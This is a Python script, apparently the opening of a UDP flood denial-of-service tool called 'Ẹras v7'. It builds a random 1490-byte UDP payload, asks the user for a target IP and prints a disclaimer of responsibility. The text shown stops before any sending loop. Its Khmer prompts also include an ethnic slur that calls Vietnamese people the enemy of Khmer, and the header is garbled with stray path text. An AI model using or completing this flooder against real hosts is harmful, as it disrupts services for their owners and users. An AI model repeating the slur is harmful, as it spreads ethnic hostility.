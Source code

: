 # Mkramkra.py
ˌde-fə-ˈni-shən 


import socket, threading, os, sys, random, ctypes, time

delay=20
psc=5000
ux=3
port = 1
sent = 0
id=1
svc=[]



sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
if os.name=='nt':
    os.system('color b')
    os.system('title Ẹras v7')
    ctypes.windll.kernel32.SetConsoleTitleW('Ẹras v7')
else:
    os.system('setterm -background white -foreground white -store')

def cls():
    os.system('cls' if os.name=='nt' else 'clear')
cls()

def type(text):
  words = text
  for char in words:
    time.sleep(0.1)
    sys.stdout.write(char)
    sys.stdout.flush()
    
    
print("ព្រះយើងគឺាតាបិតា")
print(" យើងជាមនុស្សយើងត្រូវដឹងអំពីសេចក**ីល្អ។")
input("សូមរងចាំ......ចុចវាដើម្បីដំណើរការ")
print("👩‍💻🌏🪐hackers Cambodia🌹")
print("ខ្ញុំជាកូនល្អសម្រាប់មាតាបិតា")
type("││ {==========>យើងកើតជាខ្មែរយើងត្រូវដឹងអំពីប្រវត្តិសាស្ត្រឲ្យច្បាស់លាស់។ [តើយួនជាអ្វី] អូខេ យួនជាសត្រូវនិងខ្មែរ=====តើអ្នកដឹងទេក្មេងជំនាន់ក្រោយមួយចំនួនមិនសូវរៀនប្រវត្តិសាស្រ្តទេគិតតែសប្បាយ |: ")
print()
ip = input("││ :")
ipp=ip
target=ip
    
    
#
print()
print(" ខ្ញុំ ក្នុងនាមជាអ្នកបង្កើតស្គ្រីបនេះ ខ្ញុំមិនទទួលខុសត្រូវចំពោះអ្វីដែលអ្នកធ្វើជាមួយស្គ្រីបនេះទេ។ចុច Enter ដើម្បីទទួល...")
input("👩‍💻")
print()
